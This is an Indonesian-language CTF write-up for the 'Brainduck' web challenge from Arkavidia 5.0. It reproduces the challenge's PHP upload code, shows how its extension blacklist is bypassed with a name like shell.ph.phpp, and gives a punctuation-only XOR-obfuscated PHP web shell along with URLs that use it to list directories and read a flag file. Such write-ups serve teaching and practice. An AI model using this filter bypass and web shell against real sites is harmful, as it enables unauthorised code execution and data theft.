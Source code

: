 ```yaml
---
author: cacadosman
date: 2019-02-10 02:46:54+00:00
draft: false
title: Writeup CTF Brainduck Final Arkavidia 5.0
type: post
url: /writeup-ctf-brainduck-final-arkavidia-5-0/
comments: true
categories:
- CTF
- Cyber Security
---
```


Terdapat sebuah web yang memiliki fitur untuk menginterpretasikan esolang brainfuck.

![](/wp-content/2019/02/bd.png)


Jadi kira hanya perlu mengupload file yang berisikan bahasa brainfuck untuk diinterpretasikan dan juga dapat mendownload file yang telah kita upload.

Saat kita lakukan inspect element/view source terdapat hint ?debug=V untuk dapat melihat source code php nya. Lalu kita akan mendapat source seperti berikut:
    
```php
<?php

  if (isset($_GET["debug"])) {
    highlight_file(__FILE__);
    die();
  }

  function processUpload() {
    if (!is_uploaded_file($_FILES['file']['tmp_name'])) {
      throw new Exception('Bukan file terupload');
    }

    if ($_FILES['file']['size'] > 500) {
      throw new Exception('Ukuran file tidak boleh melebihi 500 bytes');
    }

    // harusnya cuma boleh ><+-[].,
    // tapi ya sudah lah ¯\_(ツ)_/¯
    $content = file_get_contents($_FILES['file']['tmp_name']);
    if (!ctype_punct(preg_replace('/\s+/', '', $content))) {
      throw new Exception('Isi file hanya boleh ada karakter tanda baca dan whitespace');
    }

    $name = $_FILES['file']['name'];
    $name = substr($name, 0, 50);
    $name = preg_replace('/[^a-zA-Z0-9_\.]/', '', $name);

    // bibit unggul dilarang ngehack
    $blacklist = array('.php', '.php3', '.php4', '.php5', '.php7');
    $name = str_ireplace($blacklist, '', $name);

    $rand = bin2hex(random_bytes(20));
    $file = "uploads/$rand-$name";
    if (!move_uploaded_file($_FILES['file']['tmp_name'], $file)) {
      throw new Exception('Gagal upload file');
    }
    return $file;
  }

  $file = null;
  $output = null;
  $error = null;

  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // https://github.com/dotzero/brainfuck-php/blob/master/src/Brainfuck.php
    require 'brainduck.php';
    try {
      $file = processUpload();
      $brainduck = new Brainduck(file_get_contents($file), 'Brainduck', true);
      $output = $brainduck->run(true);
    } catch (Exception $e) {
      $error = $e->getMessage();
    }
  }
?>
<!-- /?debug=V -->
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <title>Brainduck</title>

    <link href="vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
  </head>

  <body>
    <div class="container-fluid">

<?php if($error): ?>
      <div class="alert alert-danger">
        <?php echo htmlspecialchars($error); ?>
      </div>
<?php elseif($file): ?>
      <div class="alert alert-success">
        File sukses terupload. <a href="<?php echo htmlspecialchars($file); ?>">Download</a>
      </div>
<?php endif; ?>

<?php if($output !== null): ?>
<?php if($output === ""): ?>
        <div class="card-header alert alert-danger">
          Tidak ada output atau terjadi error
        </div>
<?php else: ?>
      <div class="card mb-3">
        <div class="card-header alert alert-success">
          Output
        </div>
        <div class="card-body">
          <code><?php echo htmlspecialchars($output); ?></code>
        </div>
      </div>
<?php endif; ?>
<?php endif; ?>

      <div class="card mb-3">
        <div class="card-header">
          Upload file Brainduck
        </div>
        <div class="card-body">
          Contoh:
          <ul>
            <li><a href="examples/hello_world.bf">Hello World!</a></li>
            <li><a href="examples/squares.bf">Bilangan Kuadrat</a></li>
          </ul>
          <form method="POST" enctype="multipart/form-data">
            <input type="file" name="file" required>
            <button type="submit" class="btn btn-primary">Upload</button>
          </form>
        </div>
      </div>
    </div>
  </body>
</html>
```

Sebenarnya tak ada hubungannya dengan brainfuck, jika kita melihat source diatas, kita dapat menyimpulkan bahwa vuln terdapat dibagian Upload File.

Loh kok upload file?
1. Karena bisa didownload/diakses
2. Filter ekstensi hanya str_ireplace yang bisa diakali
3. Tetap dapat menginputkan punctuation characters (tidak hanya + - > < . ,)

Bagaimana cara mengakali str_ireplace?
Dengan cara merubah ekstensi menjadi namafile.ph.phpp, sehingga akan menjadi namafile.php karena .php akan difilter/dihilangkan

Lalu bagaimana kita memasukkan shell yang hanya punctuation character saja ?
Dengan cara menggunakan XOR pada PHP, karena pada bahasa pemrograman PHP kita bisa melakukan String XOR.

Kita akan melakukan XOR string "**`{{{**" dengan string "**?<>/**" yang dimana empat karakter tersebut jika diXOR akan menghasilkan _GET

Lalu kita tinggal merangkainya menjadi sebuah shell:


```php
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__](${$_}[___]));
```


lalu simpan dengan nama shell.ph.phpp dan langsung saja kita upload.

Akhirnya kita bisa melakukan akses shell dengan mengakses alamat berikut:

<blockquote>http://3.1.8.39:10002/uploads/blablabla123-shell.php?_=print_r&__=scandir&___=..</blockquote>


(untuk melakukan listing directory, dengan catatan passthru, shell_exec, dan exec ternyata didisable)


Setelah mengetahui flag terdapat pada ../flag.php maka langsung saja kita akses.


<blockquote>http://3.1.8.39:10002/blablabla123-shell.php?_=print_r&__=file_get_contents&___=../flag.php</blockquote>


Maka kita akan mendapatkan flagnya, terima kasih :)

![](/wp-content/2019/02/DxNXdIMUcAApNV0.jpg)

